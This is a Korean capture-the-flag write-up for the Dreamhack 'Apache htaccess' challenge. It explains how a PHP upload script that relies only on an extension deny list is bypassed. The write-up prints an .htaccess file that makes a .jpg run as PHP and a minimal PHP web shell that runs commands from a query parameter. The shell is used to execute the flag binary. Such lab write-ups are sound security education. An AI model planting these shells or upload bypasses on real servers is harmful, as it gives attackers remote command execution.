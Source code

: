 ```yaml
---
title: "드림핵 lv.1 - Apache htaccess"
date: 2025-03-11 00:00:00 +0800
categories: [Wargame, Dreamhack]
tags: [cyber security, writeup, dreamhack, web hacking, file upload, apache, htaccess] 
description: 드림핵 Apache htaccess 웹해킹 워게임 풀이
---
```


[https://dreamhack.io/wargame/challenges/418](https://dreamhack.io/wargame/challenges/418)
# 문제 설명
파일 업로드 기능을 악용하여 서버의 권한을 획득하세요 !

---
# 문제 풀이
## 코드 분석
```
[Code Structure]
src/
	- index.php
	- upload.php
000-default.conf
Dockerfile
run-lamp.sh
```
웹사이트에 접속하면 단순하게 파일을 업로드하는 기능만 있기 때문에 바로 코드를 살펴보기로 했다.
### upload.php
```php
$deniedExts = array("php", "php3", "php4", "php5", "pht", "phtml");

if (isset($_FILES)) {
    $file = $_FILES["file"];
    $error = $file["error"];
    $name = $file["name"];
    $tmp_name = $file["tmp_name"];
   
    if ( $error > 0 ) {
        echo "Error: " . $error . "<br>";
    }else {
        $temp = explode(".", $name);
        $extension = end($temp);
       
        if(in_array($extension, $deniedExts)){
            die($extension . " extension file is not allowed to upload ! ");
        }else{
            move_uploaded_file($tmp_name, "upload/" . $name);
            echo "Stored in: <a href='/upload/{$name}'>/upload/{$name}</a>";
        }
    }
}else {
    echo "File is not selected";
}
```
메인 페이지에서 파일을 업로드하면 해당 php 코드가 실행된다. <br />
업로드된 파일은 "upload/"라는 디렉토리에 저장되고 `"/upload/" + filename` 형식으로 웹 접근이 가능하다.
### Dockerfile
```
# FLAG
COPY ./flag.c /flag.c
RUN apt install -y gcc \
    && gcc /flag.c -o /flag \
    && chmod 111 /flag && rm /flag.c
```
`Dockerfile`에 플래그 파일의 위치가 나와있다. "/flag"이다.
## 최종 분석
### 취약점 분석
`upload.php`를 보면 업로드된 파일을 url로 접근하는 것이 가능하다. <br /> 
심지어 업로드 할 때에 확장자 체크 말고는 별달리 파일의 안전성을 확인하는 부분이 없기에, 이 부분에서 File Upload 취약점이 발생한다.<br />
### 파일 확장자 필터링 우회
Apache 서버에서는 보통 `.htaccess`라는 설정 파일로 각 디렉토리마다 다른 설정을 가질 수 있게 하는 기능이 있다.<br />

이를 이용하면 .php가 아닌 확장자도 php 파일처럼 해석되게끔 설정해줄 수 있다.<br />
#### .htaccess 파일 작성
```
<Files "webshell.jpg">
    SetHandler application/x-httpd-php
</Files>
```
이렇게 작성하여 업로드 해주면 해당 파일은 "/upload/.htaccess" 경로로 저장된다. <br />
그러면 이제 "upload/" 디렉토리는 ₩에 명시된 설정 값이 적용된다.<br />
### 웹쉘 업로드하기
```php
<?php
	echo "Webshell is working!";
	system($_GET["cmd"]);
?>
```
이렇게 작성된 "webshell.jpg" 파일을 하나 만들어서 업로드해주면 된다. <br />
일반 텍스트 에디터(VSCode 라던가)로는 jpg 파일에 코드를 작성하는 것이 어려워서 본인은 터미널의 vim을 이용했다.
### 플래그 출력하기
"/upload/webshell.jpg"에 접속하면 "Webshell is working!"이라는 문구가 잘 뜨는 것을 보니 `.htaccess` 설정 값이 제대로 작동하고 있는 모양이다.<br />

이제 `cmd`값에 `Dockerfile`에서 알아냈던 "/flag" 파일을 실행시키면 플래그가 출력된다.
# 배운 것
드림핵 강의에서, `.htaccess`는 설정 파일을 분산시킬 수 있도록 아파치 서버에서 제공하는 기능이라고 했을 때 무슨 소리인가 잘 이해가 되지 않았는데 해당 문제를 풀어보면서 단번에 이해할 수 있었다.